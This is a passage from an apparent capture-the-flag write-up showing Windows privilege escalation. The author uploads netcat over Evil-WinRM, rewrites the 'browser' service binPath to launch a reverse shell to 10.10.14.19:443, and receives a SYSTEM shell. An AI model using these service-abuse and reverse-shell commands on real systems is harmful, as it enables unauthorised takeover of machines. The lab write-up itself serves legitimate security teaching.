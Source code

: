 ### Exploit Service

To get a shell, I’ll upload `nc64.exe`:

```
*Evil-WinRM* PS C:\programdata> upload /opt/shells/netcat/nc64.exe
Info: Uploading /opt/shells/netcat/nc64.exe to C:\programdata\nc64.exe

Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!

```

Now I’ll need to find a service I can stop and start. Took a bit of trial and error, but found `browser`. I’ll change the `binPath`:

```
*Evil-WinRM* PS C:\programdata> sc.exe config browser binPath= "C:\programdata\nc64.exe -e cmd.exe 10.10.14.19 443"
[SC] ChangeServiceConfig SUCCESS

```

Now stop the service, and then start it:

```
*Evil-WinRM* PS C:\programdata> sc.exe stop browser

SERVICE_NAME: browser
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0xafc8
*Evil-WinRM* PS C:\programdata> sc.exe start browser
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

```

It reports that it failed, but that’s because `nc64.exe` isn’t a service binary. At my `nc` listener:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.179.
Ncat: Connection from 10.10.10.179:50019.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```
